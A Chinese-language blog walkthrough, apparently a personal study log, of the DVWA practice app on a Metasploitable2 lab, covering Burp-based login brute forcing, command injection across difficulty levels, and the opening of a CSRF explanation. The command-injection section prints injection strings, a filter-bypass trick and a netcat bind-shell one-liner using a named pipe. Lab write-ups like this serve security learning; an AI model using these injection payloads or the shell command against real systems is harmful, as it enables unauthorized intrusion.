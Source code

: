 ```yaml
---
title: DVWA
tags:
  - DVWA
categories:
  - 渗透测试
abbrlink: 57354
date: 2020-04-21 17:23:53
---
```



###  前言
在大约2017-2018年时间就安装过dvwa，那时候只对安全方面感兴趣，也不知道这玩意是干啥的，所以果断安装好后就被我搁置了。最近这段时间，重新学习安全体系，才知道dvwa是一个非常优秀的靶场。闲话不多说，本章介绍dvwa基本过关锦集，献给我第一个学习靶场dvwa。

靶机使用的是Metasploitable2-Linux集成的dvwa环境，不同的dvwa版本，难度选项有些有4个最后一个选项是impossible，我的只有3个，即high=impossible。

### Brute Force
　　爆破表单，主要看你的字典内容是否丰富，首先打开burp，抓包拦截后放进intruder模块。我写过burp使用教程，不懂的移步<a target="_blank" href="https://snowmeteors.github.io/2020/03/29/48647.html">burpsuite使用教程</a>，不多说了。
　　low级别，设置好攻击变量，攻击类型Cluster bomb后，开始设置payloads。
　　[![JGmedH.png](https://s1.ax1x.com/2020/04/21/JGmedH.png)](https://imgchr.com/i/JGmedH)
　　因为知道用户名和密码，为了不浪费时间，我就随便添加几个，如图所示。
　　![JGnwAH.png](https://s1.ax1x.com/2020/04/21/JGnwAH.png)
　　点击attack后，根据length排序找到正确的用户名和密码
　　![JDDop6.png](https://s1.ax1x.com/2020/04/24/JDDop6.png)
　　medium级别，还是跟上面一模一样的配置，开始攻击后，情况跟low级别的代码一模一样，我一度以为我是不是没有调整级别。
　　high级别下，每次发包会延迟2s，但是只要你有耐心，也能爆破出来不是吗。
### Command Execution
　　执行模块，low级别下。首先可以看到输入一个ip地址，那么先输入一个正确的ip地址127.0.0.1试试
　　![JGM89s.png](https://s1.ax1x.com/2020/04/21/JGM89s.png)
　　回显正确，试试加入管道符：127.0.0.1 && ls
　　![JG3lq0.png](https://s1.ax1x.com/2020/04/21/JG3lq0.png)
　　命令成功执行，查看源码，创建一个target变量，后面直接执行ping target，无任何消毒机制
　　![JGGE9g.png](https://s1.ax1x.com/2020/04/21/JGGE9g.png)
　　执行;mkfifo /tmp/pipe;sh /tmp/pipe | nc -lvp 4444 > /tmp/pipe后，你会发现最上面的标签栏有个圈圈会不停的转，利用nc连接可以直接得到shell，权限也不是root还要进一步提权。
　　![JNfJsg.png](https://s1.ax1x.com/2020/04/22/JNfJsg.png)
　　medium级别，还是试试127.0.0.1 && ls，执行后发现无任何回显。说明过滤了'&'换一种姿势试了127.0.0.1 ; ls无果。 尝试127.0.0.1 | ls
　　![JGJePO.png](https://s1.ax1x.com/2020/04/21/JGJePO.png)
　　命令有效，那么在试试127.0.0.1 &&& ls 呢
　　![JGY9Ff.png](https://s1.ax1x.com/2020/04/21/JGY9Ff.png)
　　猜测只过滤一次&那么过滤完后的payload就为127.0.0.1 && ls了，127.0. || ls也是可以成功执行的，也就是说没有过滤'|'。直接看源码
　　![JGtwEq.png](https://s1.ax1x.com/2020/04/21/JGtwEq.png)
　　嗯，好吧我承认猜测情况有点差别。它的过滤机制是将'&&'字符变成空字符，将';'同样变成空字符。
　　high级别，我尝试了上述所有payload后无果，好吧直接看源码。看它的消毒机制怎么写的如此完善。
　　![JGNeiV.png](https://s1.ax1x.com/2020/04/21/JGNeiV.png)
　　看不懂没关系，因为我也没有学过php，但学过其他语言的我，基本还是能懂点啥意思，它的过滤机制是只能输入一个ip，如果不是一个正确的ip就出现ERROR: You have entered an invalid IP。所以不存在命令执行，当然你有什么方法能绕过，请一定一定要联系我。我也想知道这到底怎么绕。
### CSRF
　　跨站请求伪造，以下为我对这个csrf的理解
　　有一个站点a，里面有修改密码的功能，此功能中只有一个修改密码框，你只需要输入要修改的密码后，点提交就能成功修改密码了。如修改密码为123
　　然后查看url发现是get方式如 http://<span>www</span>.xxx.com?password_new=123，猜测是否可以直接修改url中的123来修改密码，于是乎试试提交http://<span>www</span>.xxx.com?password_new=456。发现成功将自己的密码修改成了456。